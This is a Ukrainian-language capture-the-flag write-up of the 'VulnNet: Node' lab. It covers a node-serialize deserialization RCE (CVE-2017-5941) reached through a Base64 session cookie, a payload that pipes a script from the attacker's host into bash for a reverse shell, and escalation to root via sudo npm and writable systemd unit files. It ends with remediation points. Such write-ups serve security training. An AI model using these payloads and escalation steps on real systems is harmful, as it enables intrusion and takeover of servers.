









# VulnNet: Node - After the previous breach, VulnNet Entertainment states it won't happen again. Can you prove they're wrong?

Складність: Easy

Ціль: 10.114.131.255

1. Розвідка (Reconnaissance & Enumeration)

   1.1. Сканування портів (Nmap):
      Для пошуку відкритих портів та активних служб на цільовому сервері було запущено повне сканування:
   ```bash
   └─$ sudo nmap -sC -sV -p- -vv -oN nmap_result.txt 10.114.131.255 
   ```
      Результат сканування: Знайдено відкритий веб-порт `8080`, на якому працює веб-додаток на базі `Node.js Express`.
   
   

   1.2. Веб-розвідка
      При переході на сторінку `http://10.114.131.255:8080` нас зустрічає блог-платформа. Аналіз HTTP-запитів та збережених у браузері даних показав наявність цікавої сесійної куки. Кука `session` закодована в `Base64`. Після її декодування було отримано наступну JSON-структуру:

   

      Дослідження технологічного стеку та формату збереження сесії вказує на використання бібліотеки node-serialize у додатку Node.js. Ця бібліотека є вразливою до небезпечної десеріалізації даних [CVE-2017-5941](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/), яка дозволяє виконати довільний код на сервері (RCE) за допомогою конструкції IIFE (Immediately Invoked Function Expression).

2. Точка входу (Initial Access / Foothold)

   2.1. Експлуатація вразливості (Ping Test)
      Для перевірки виконання коду (RCE) було створено Payload, який `_$$ND_FUNC$$_` та миттєвий виклик функції `()` в кінці для виконання системної команди `ping`:
      Кодування payload у `Base64` в терміналі:
   ```bash
   ─$ echo -n '{"username":"_$$ND_FUNC$$_function(){require(\"child_process\").exec(\"ping -c 2 192.168.130.250\")} ()","isGuest":true,"encoding": "utf-8"}' | base64 -w 0
   eyJ1c2VybmFtZSI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbigpe3JlcXVpcmUoXCJjaGlsZF9wcm9jZXNzXCIpLmV4ZWMoXCJwaW5nIC1jIDIgMTkyLjE2OC4xMzAuMjUwXCIpfSAoKSIsImlzR3Vlc3QiOnRydWUsImVuY29kaW5nIjogInV0Zi04In0=
   ```

   Запуск моніторингу трафіку:
   ```bash
   └─$ sudo tcpdump -i tun0 icmp
   ```

   Відправка модифікованого HTTP-запиту з експлойтом через `curl`:
   ```bash
   └─$ curl http://10.114.131.255:8080 -H "Cookie: session=eyJ1c2VybmFtZSI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbigpe3JlcXVpcmUoXCJjaGlsZF9wcm9jZXNzXCIpLmV4ZWMoXCJwaW5nIC1jIDIgMTkyLjE2OC4xMzAuMjUwXCIpfSAoKSIsImlzR3Vlc3QiOnRydWUsImVuY29kaW5nIjogInV0Zi04In0="
   ```

   Результат: Сервер успішно виконав код та надіслав ICMP-пакети (пінг) на нашу Kali Linux. Вразливість підтверджено.

   

   2.2. Отримання реверс-шеллу
      Для отримання інтерактивного доступу ми змусимо сервер завантажити готовий bash-скрипт з нашої машини та виконати його в системі.
   
   

      ```bash
      # Запуск HTTP-сервера для роздачі скрипта
      └─$ python3 -m http.server 80
      # Запуск Netcat у новому вікні для прийому шелла
      └─$ nc -nlvp 4444
      ```

      Кодування `payload` в форматі `Base64` та виконання запиту:
      ```bash
      ─$ echo -n '{"username":"_$$ND_FUNC$$_function(){require(\"child_process\").exec(\"curl http://192.168.130.250/rev.sh | bash\")} ()","isGuest":true,"encoding": "utf-8"}' | base64 -w 0 
      eyJ1c2VybmFtZSI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbigpe3JlcXVpcmUoXCJjaGlsZF9wcm9jZXNzXCIpLmV4ZWMoXCJjdXJsIGh0dHA6Ly8xOTIuMTY4LjEzMC4yNTAvcmV2LnNoIHwgYmFzaFwiKX0gKCkiLCJpc0d1ZXN0Ijp0cnVlLCJlbmNvZGluZyI6ICJ1dGYtOCJ9
      ─$ curl http://10.114.131.255:8080 -H "Cookie: session=eyJ1c2VybmFtZSI6Il8kJE5EX0ZVTkMkJF9mdW5jdGlvbigpe3JlcXVpcmUoXCJjaGlsZF9wcm9jZXNzXCIpLmV4ZWMoXCJjdXJsIGh0dHA6Ly8xOTIuMTY4LjEzMC4yNTAvcmV2LnNoIHwgYmFzaFwiKX0gKCkiLCJpc0d1ZXN0Ijp0cnVlLCJlbmNvZGluZyI6ICJ1dGYtOCJ9"
      ```

      Отримано первинний доступ (Initial Foothold) від імені користувача `www`.

   

3. Підвищення привілеїв (Privilege Escalation)

   3.1. Горизонтальне переміщення (www -> serv-manage)
      Перевірка дозволених sudo команд для користувача www показала можливість виконання npm без пароля від імені іншого користувача:
      ```bash
      www@ip-10-114-131-255:~$ sudo -l
      Matching Defaults entries for www on ip-10-114-131-255:
          env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

      User www may run the following commands on ip-10-114-131-255:
          (serv-manage) NOPASSWD: /usr/bin/npm
      ```

      Використовуємо [`npm` | GTFPBins](https://gtfobins.org/gtfobins/npm/) для запуску оболонки з правами користувача `serv-manage` та забираємо прапор `user.txt`.

   

   

   3.2. Вертикальне підвищення (`serv-manage` -> `Root`)
      Аналіз прав користувача `serv-manage` за допомогою команди `sudo -l` вказав на цікаві привілеї для взаємодії зі службами systemd:
      ```bash
      serv-manage@ip-10-114-131-255:/home/www$ sudo -l
      Matching Defaults entries for serv-manage on ip-10-114-131-255:
          env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
    
      User serv-manage may run the following commands on ip-10-114-131-255:
          (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
          (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
          (root) NOPASSWD: /bin/systemctl daemon-reload
      ```

      Перевірка дозволів на відповідні файли служб та таймерів у `/etc/systemd/system/` виявила слабкі права доступу — користувач `serv-manage` має права на запис та редагування цих конфігураційних файлів:
      ```bash
      serv-manage@ip-10-114-131-255:/home/www$ ls -lah /etc/systemd/system/vulnnet-auto.timer
      -rw-rw-r-- 1 root serv-manage 167 Jan 24  2021 /etc/systemd/system/vulnnet-auto.timer
      serv-manage@ip-10-114-131-255:/home/www$ ls -lah /etc/systemd/system/vulnnet-job.service
      -rw-rw-r-- 1 root serv-manage 197 Jan 24  2021 /etc/systemd/system/vulnnet-job.service
      ```

      Оскільки оригінальна служба має параметр `Type=forking` (який завершує інтерактивні шелли за таймаутом), ми змінюємо тип служби на `simple` (або `oneshot` для SUID-тактики) та вказуємо нашу команду для отримання root-доступу.

   

      Запуск нового слухача на Kali:
      ```bash
      nc -nlvp 4545
      ```

      Перезапуск служби від імені `root` через `sudo`:
      ```bash
      serv-manage@ip-10-114-131-255:/home/www$ sudo /bin/systemctl daemon-reload
      serv-manage@ip-10-114-131-255:/home/www$ sudo /bin/systemctl stop vulnnet-auto.timer
      serv-manage@ip-10-114-131-255:/home/www$ sudo /bin/systemctl start vulnnet-auto.timer
      ```

      Служба виконала команду з правами суперкористувача. На наш порт `4545` прилетів повноцінний root-shell.

   

Висновки:
* Безпека десеріалізації: Додаток виявився вразливим до `RCE` через використання небезпечної бібліотеки `node-serialize` (CVE-2017-5941). Будь-яку десеріалізацію користувацьких даних без валідації слід повністю виключити із коду.
* Конфігурація Sudo: Надання привілеїв `sudo` на утиліти на кшталт `npm` без обмеження аргументів неминуче веде до горизонтального чи вертикального підвищення привілеїв.
* Права на конфігураційні файли системних служб: Файли у `/etc/systemd/system/` повинні належати виключно користувачу `root` та бути захищеними від запису сторонніми групами користувачів. Права групи `serv-manage` на запис у `.service` файли стали фінальною точкою компрометації всієї системи.
